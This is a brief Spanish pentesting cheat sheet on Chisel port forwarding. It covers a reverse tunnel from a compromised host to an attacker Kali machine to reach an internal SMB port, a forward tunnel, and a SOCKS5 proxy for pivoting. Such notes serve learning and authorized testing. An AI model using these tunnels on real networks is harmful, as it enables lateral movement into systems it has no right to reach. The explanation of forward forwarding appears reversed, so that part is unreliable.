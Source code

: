 ### 🛠️ Técnicas de Port Forwarding con Chisel y Ligolo-ng
#### 📌 1. Chisel

Chisel es una herramienta para tunelizar tráfico TCP a través de HTTP/HTTPS. Ideal para entornos donde solo se permite tráfico web saliente.
🔁 Reverse Port Forwarding (RPF)

> Acceder desde Kali a un puerto interno de una red remota (pivoting clásico).

1. Servidor (Kali):
```bash
chisel server -p 8000 --reverse
```
2. Cliente (host comprometido):
```bash
chisel client <KALI_IP>:8000 R:4444:10.10.10.1:445
```
Esto hace que en Kali puedas acceder a 10.10.10.1:445 mediante localhost:4444.
🔀 Forward Port Forwarding (FPF)

> Exponer un puerto local al equipo remoto.

1. Servidor (host remoto):

```bash
chisel server -p 8000
```

2. Cliente (Kali):

```bash
chisel client <REMOTE_IP>:8000 L:8080:127.0.0.1:80
```

Permite al host remoto acceder al localhost:80 de Kali mediante su localhost:8080.
📥 SOCKS Proxy

    Crear un proxy SOCKS5 para exploración dinámica (uso con proxychains o herramientas que soporten SOCKS).

Servidor:

chisel server -p 8000 --socks5

Cliente:

chisel client <KALI_IP>:8000 socks

[https://exploit-notes.hdks.org/exploit/network/port-forwarding/chisel/](HDKS - Chisel Port Forwarding Guide)
